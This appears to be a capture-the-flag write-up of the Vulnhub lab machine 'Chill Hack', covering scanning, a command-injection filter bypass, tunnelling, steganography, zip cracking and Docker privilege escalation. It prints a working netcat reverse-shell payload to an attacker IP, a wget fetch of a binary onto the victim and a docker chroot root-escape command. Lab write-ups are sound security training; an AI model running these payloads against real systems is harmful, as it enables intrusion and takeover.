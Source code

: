 ![image](https://github.com/user-attachments/assets/87a7f2c8-cb4b-43fd-b2fd-e1ddf1e2b89f)* * *
Title: Chill Hack
Platform: Vulnhub

* * *

### Wakthrough:

- Spot the ip of the victim machine with `netdiscover -r <eth0 ip>`, to get our host machine's ip, use `ip a | grep "eth0"`

  ![image](https://github.com/user-attachments/assets/be2e49a2-5292-4bc1-b965-e365e86cd7b8)

- Our target ip 

  ![image](https://github.com/user-attachments/assets/b9e27c47-b1aa-442d-8410-e62af682e78a)

- Rustscan's result for open ports,use `rustscan -a [victim's ip] -- -sC -sV`,flag `-sV` is used for port service detection
      
        ❯ rustscan -a 192.168.184.128 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Real hackers hack time ⌛
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 192.168.184.128:21
      Open 192.168.184.128:80
      Open 192.168.184.128:22
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-26 06:32 EDT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 06:32
      Completed NSE at 06:32, 0.02s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 06:32
      Completed NSE at 06:32, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 06:32
      Completed NSE at 06:32, 0.01s elapsed
      Initiating Ping Scan at 06:32
      Scanning 192.168.184.128 [2 ports]
      Completed Ping Scan at 06:32, 0.01s elapsed (1 total hosts)
      Initiating Parallel DNS resolution of 1 host. at 06:32
      Completed Parallel DNS resolution of 1 host. at 06:32, 0.39s elapsed
      DNS resolution of 1 IPs took 0.39s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 06:32
      Scanning 192.168.184.128 [3 ports]
      Discovered open port 22/tcp on 192.168.184.128
      Discovered open port 80/tcp on 192.168.184.128
      Discovered open port 21/tcp on 192.168.184.128
      Completed Connect Scan at 06:32, 0.00s elapsed (3 total ports)
      Initiating Service scan at 06:32
      Scanning 3 services on 192.168.184.128
      Completed Service scan at 06:32, 6.26s elapsed (3 services on 1 host)
      NSE: Script scanning 192.168.184.128.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 06:32
      NSE: [ftp-bounce 192.168.184.128:21] PORT response: 500 Illegal PORT command.
      Completed NSE at 06:32, 6.06s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 06:32
      Completed NSE at 06:32, 0.18s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 06:32
      Completed NSE at 06:32, 0.01s elapsed
      Nmap scan report for 192.168.184.128
      Host is up, received syn-ack (0.0055s latency).
      Scanned at 2024-07-26 06:32:25 EDT for 13s
      
      PORT   STATE SERVICE REASON  VERSION
      21/tcp open  ftp     syn-ack vsftpd 3.0.3
      | ftp-anon: Anonymous FTP login allowed (FTP code 230)
      |_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
      | ftp-syst: 
      |   STAT: 
      | FTP server status:
      |      Connected to ::ffff:192.168.184.129
      |      Logged in as ftp
      |      TYPE: ASCII
      |      No session bandwidth limit
      |      Session timeout in seconds is 300
      |      Control connection is plain text
      |      Data connections will be plain text
      |      At session startup, client count was 2
      |      vsFTPd 3.0.3 - secure, fast, stable
      |_End of status
      22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcxgJ3GDCJNTr2pG/lKpGexQ+zhCKUcUL0hjhsy6TLZsUE89P0ZmOoQrLQojvJD0RpfkUkDfd7ut4//Q0Gqzhbiak3AIOqEHVBIVcoINja1TIVq2v3mB6K2f+sZZXgYcpSQriwN+mKgIfrKYyoG7iLWZs92jsUEZVj7sHteOq9UNnyRN4+4FvDhI/8QoOQ19IMszrbpxQV3GQK44xyb9Fhf/Enzz6cSC4D9DHx+/Y1Ky+AFf0A9EIHk+FhU0nuxBdA3ceSTyu8ohV/ltE2SalQXROO70LMoCd5CQDx4o1JGYzny2SHWdKsOUUAkxkEIeEVXqa2pehJwqs0IEuC04sv
      |   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFetPKgbta+pfgqdGTnzyD76mw/9vbSq3DqgpxPVGYlTKc5MI9PmPtkZ8SmvNvtoOp0uzqsfe71S47TXIIiQNxQ=
      |   256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKHq62Lw0h1xzNV41zO3BsfpOiBI3uy0XHtt6TOMHBhZ
      80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
      |_http-server-header: Apache/2.4.29 (Ubuntu)
      |_http-title: Game Info
      | http-methods: 
      |_  Supported Methods: GET POST OPTIONS HEAD
      |_http-favicon: Unknown favicon MD5: 7EEEA719D1DF55D478C68D9886707F17
      Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

- Ffuf's result for directory fuzzing after using wordlist `big.txt`

  ![image](https://github.com/user-attachments/assets/235c0f84-b0e0-47c6-93d0-a5b8b43de550)

- The webserver contains a page `secret`,I tested the site for shell command injection, i noticed it filters linux shell commands.I tested with `ls`
  and got this alert page

 
 ![image](https://github.com/user-attachments/assets/b9835310-bc20-419c-bca1-d90d3520a537)

- I bypassed the filters by enclosing the linux statement with `$()` e.g `$(ls)`. To test it, I set up a listner with nc and got a payload from
`revshells.com` to activate a reverse shell. Now we have shell access to `www-data`

  Payload: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc [Attacker'sip] [nc listener's port] >/tmp/f`

  ![image](https://github.com/user-attachments/assets/188f3c98-6c02-43dd-9a00-22fdc49bb057)

- Stabilize the shell with the instructions below
  `python3 -c "import pty;pty.spawn('/bin/bash')"
   ctrl + z {to make it a backround process}
   stty raw -echo;fg
   export TERM=XTERM`
  
  ![image](https://github.com/user-attachments/assets/9f757f47-2f93-46bf-a798-252397d3ec67)

- After runnng `netstat -antp` to check services running on the victim machine. I noticed a page was running on localhost:9001 which is
a customer page.

  ![image](https://github.com/user-attachments/assets/55c1d7c2-ca3c-44cb-b2fc-dead8e43a4b4)

- We can make it available on our machine by port forwarding it with chisel, but our first task  is to send the chisel binary from
our attacker machine.Set up a python http server with this command `python -m http.server 8000` in the director chisel is located.

 ![image](https://github.com/user-attachments/assets/cbd6da90-440f-49eb-9869-aec6ec00d198)

- Receive with `wget http://[host'sip]:[http server'sport]/[binary's name]`, it should be noted that we can only write files to directories like `/dev/shm` and `/tmp` in the victim's machine. I'll be writing to /tmp.The next step is to grant the binary with
`chmod +x {binary}` to grant execute permissions.

  ![image](https://github.com/user-attachments/assets/0871e405-846a-43e1-8373-d5837863995a)--

-  Set up a server with `chisel server -p [port] --reverse` on your target machine

  ![image](https://github.com/user-attachments/assets/1d197c0f-d4de-40b5-9ffe-368cb5663647)

- We have to set up a client on the victim's machine with `./chisel client [attacker'sip]:[chisel's server port] R:[port that you want to tunnel through]:[localhost]:[port running the service internally]`.After executing, the client should communicate with our server.

   `./chisel client 192.168.184.129:8002 R:8003:127.0.0.1:9001`
   
  ![image](https://github.com/user-attachments/assets/3eb0eb80-1e18-48f0-83dd-1a18405191cd)

- Fuzzing for web directories and files with ffuf reveals an images directories.

  ![image](https://github.com/user-attachments/assets/a41b2238-849d-493e-98d1-566209ad6072)

- The `images/` directories contains a gif and jpg images.I decided to perform steganography on the jpg file to check if the file is within the jpg file.

  ![image](https://github.com/user-attachments/assets/a4603504-669c-4586-9d49-5a56f7dc6b2d)

- Download the file to your machine with wget and use `stegseek` to crack the jpg file passphrase

  ![image](https://github.com/user-attachments/assets/75d02ae7-b8a4-43f0-962f-913fad045fd6)

- The jpg file was not password protected and it contains a backup.zip file but the zip file is password protected

  ![image](https://github.com/user-attachments/assets/09c011b2-4f42-41ea-b5b7-526b765631d0)

- I cracked the zip wit `John the ripper` but the fist process is to recover the hash with `zip2john [zipfile] > hashfile`.Then, crack with `john --wordlist=[probably rockyou] hash`. Since I have cracked the password before, I used option `--show` to show the password.

  ![image](https://github.com/user-attachments/assets/9d9f461a-fe4b-492f-926a-27c667afcb9b)

- Use `unzip [file]` to unzip the zip archive. The file contains a php file code which reveals a b64 encoded password.

   ![image](https://github.com/user-attachments/assets/87babf44-ed57-46fa-9d87-308e4ee32bd4)
    

- The value of the base64 encoded string is ``.To decode the string,use `echo "base64string" | base64 -d`.

        ❯ echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d
         !d0ntKn0wmYp@ssw0rd
      
- I was unable to get the authentication page, I decided to test the password `!d0ntKn0wmYp@ssw0rd` on the ssh user `anurodh` and I got ssh access to the user anurodh

  ![image](https://github.com/user-attachments/assets/e7df196b-da48-4c1f-93a5-81bcd1121331)
  

### Privilege Escalation with Docker

-  User `anurodh` is under the group, we can run a privileged container and breakout as root.

  ![image](https://github.com/user-attachments/assets/af0baaf1-532b-44db-ae17-4c567aa4351e)

- I got a payload from <a href="https://gtfobins.github.io/gtfobins/docker/">gtfobins</a> to escalate privileges

  Payload: `docker run -v /:/mnt --rm -it alpine chroot /mnt bash`

  ![image](https://github.com/user-attachments/assets/f1e7c738-0aa8-43ed-8f4a-d7dedf1f8ceb)

- Flags:

  ![image](https://github.com/user-attachments/assets/85ebad7b-5eda-46e2-a411-b0f831003a31)



  




 
